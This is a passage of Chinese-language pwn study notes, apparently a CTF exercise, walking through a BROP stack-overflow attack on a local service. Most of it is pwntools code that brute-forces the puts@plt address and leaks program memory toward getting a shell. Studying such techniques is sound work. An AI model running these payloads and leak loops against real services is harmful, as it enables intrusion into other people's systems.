 1. 关于`rdi_ret`的获取

   ```python
   rdi_ret = brop_gadget_addr + 0x9
   ```

2. 关于`payload`

```python
def get_puts_addr(length, rdi_ret, stop_gadget):
  addr = 0x400000
  while True:
    print(hex(addr))
    io = remote('127.0.0.1', 9999)
    io.recvuntil(b'password?\n')
    payload = b'A'*length + p64(rdi_ret) + p64(0x400000) + p64(addr) + p64(stop_gadget)
    io.sendline(payload)
    try:
      content = io.recv()
      if content.startswith(b'\x7fELF'):  
        # remenber add 'b' to your string
        print('Find puts@plt addr: 0x%x' % (addr))
        return addr
      io.close()
      addr += 1
    except Exception:
      io.close()
      addr += 1 
```

最终得到地址为`0x400555`（不同的`libc`地址是不同的）

> 借此可以确定在泄漏`puts@got`地址后找到`puts`的真正的地址，进而泄漏`libc`的版本

![brop_puts@plt](D:\Github\pwn\pwn_study\images\brop_puts@plt.png)

### 泄漏 addr->puts@got

> 1. 泄露 puts 函数的地址，进而获取 libc 版本，从而获取相关的 system 函数地址与 / bin/sh 地址，从而获取 shell
> 2. 我们从 0x400000 开始泄露 0x1000 个字节，这已经足够包含程序的 plt 部分了，0x1000 = 16 bytes * 256

```python
def leak_unit(length, rdi_ret, puts_plt, leak_addr, stop_gadget):
  io = remote('127.0.0.1',9999)
  payload = b'a'*length + p64(rdi_ret) + p64(leak_addr) + p64(puts_plt) + p64(stop_gadget)
  io.recvuntil(b'password?\n')
  io.sendline(payload)
  try:
    data = io.recv()
    io.close()
    try:
      data = data[:data.index(b'\nWelCome')]
    except Exception:
      data = data
    if data == "":
      data = '\x00'
    return data
  except Exception:
    io.close()
    return None
  
def leak_memory(length, stop_gadget, brop_gadget, rdi_ret, puts_plt, init_addr):
  result = ""
  addr = init_addr
  while addr < 0x401000:
    print('\n', hex(addr))
    data = leak_unit(length, rdi_ret, puts_plt, addr, stop_gadget)
```